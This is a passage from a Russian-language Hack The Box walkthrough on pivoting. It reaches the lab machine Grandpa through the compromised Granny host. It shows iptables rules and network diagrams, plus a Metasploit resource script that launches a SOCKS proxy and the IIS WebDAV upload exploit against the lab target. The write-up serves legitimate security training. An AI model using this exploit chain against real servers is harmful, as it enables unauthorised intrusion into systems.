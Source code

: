 Решение...

## Подготовка

Я буду использовать стандартный файрвол для Linux `iptables`, чтобы исключить прямое взаимодействие своего хоста и хоста Grandpa. Так я буду уверен, что правила игры и правда выполняются.

```
root@kali:~# iptables -A OUTPUT -d 10.10.10.14 -j DROP
root@kali:~# iptables -A INPUT -s 10.10.10.14 -j DROP
```

[![iptables-drop-grandpa-out.gif](/assets/images/htb/machines/grandparents/iptables-drop-grandpa-out.gif)](/assets/images/htb/machines/grandparents/iptables-drop-grandpa-out.gif)
{:.center-image}

Упрощенно схему подключения к скрытому за VPN сегменту (виртуальной) сети лаборатории Hack The Box можно изобразить так.

[![network-htb.png](/assets/images/htb/machines/grandparents/network-htb.png)](/assets/images/htb/machines/grandparents/network-htb.png)
{:.center-image}

Однако в рамках нашей задачи лучше абстрагироваться и представить схему взаимодействия «Атакующий-Pivot-Grandpa» в следующем виде.

[![network-pivot-basic.png](/assets/images/htb/machines/grandparents/network-pivot-basic.png)](/assets/images/htb/machines/grandparents/network-pivot-basic.png)
{:.center-image}

Слева — атакующий (ВМ Kali), посередине — ВМ Granny, справа — жертва (ВМ Grandpa). «Общение» напрямую между атакующим и жертвой исключено. Единственный способ взаимодействия — посредством промежуточного хоста.

## Точка опоры

Хост посередине — а именно Granny — будем называть «точкой опоры» или «опорным пунктом» (англ. [foothold](https://www.offensive-security.com/metasploit-unleashed/pivoting/)). Через него будет проходить передача трафика до Grandpa и обратно. Первым делом получим доступ к точке опоры, как мы это делали ранее.

Я написал скрипт автозапуска для Metasploit, чтобы в случае, если что-то пойдет не так, и нужно будет перезапускать всю эту конструкцию, мне не пришлось бы заново вручную вводить команды.

```
# pivot.rc

use auxiliary/server/socks4a
set SRVPORT 9050
run -j

use exploit/windows/iis/iis_webdav_upload_asp
set LHOST tun0
set RHOST 10.10.10.15
set InitialAutoRunScript migrate -f
exploit -j

back
```
